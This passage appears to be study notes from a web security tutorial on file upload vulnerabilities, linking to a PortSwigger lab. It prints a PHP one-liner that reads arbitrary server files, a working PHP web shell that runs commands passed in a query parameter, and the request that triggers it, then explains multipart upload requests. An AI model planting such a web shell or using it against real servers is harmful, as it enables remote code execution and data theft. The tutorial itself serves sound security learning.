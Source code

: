 </aside>

For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

[Lab: Remote code execution via web shell upload | Web Security Academy](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

A more versatile web shell may look something like this:

```php
<?php echo system($_GET['command']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:

```php
GET /example/exploit.php?command=id HTTP/1.1
```

# Exploiting flawed validation of file uploads

> Because defenses are in place, that doesn't mean that they're robust.
> 

## Flawed file type validation

When submitting HTML forms, the browser typically sends the provided data in a `POST`request with the content type `application/x-www-form-url-encoded.`
This is fine for sending simple text like your name, address, and so  on, but is not suitable for sending large amounts of binary data, such 
as an entire image file or a PDF document. In this case, the content  type `multipart/form-data`is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this:

```php
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```
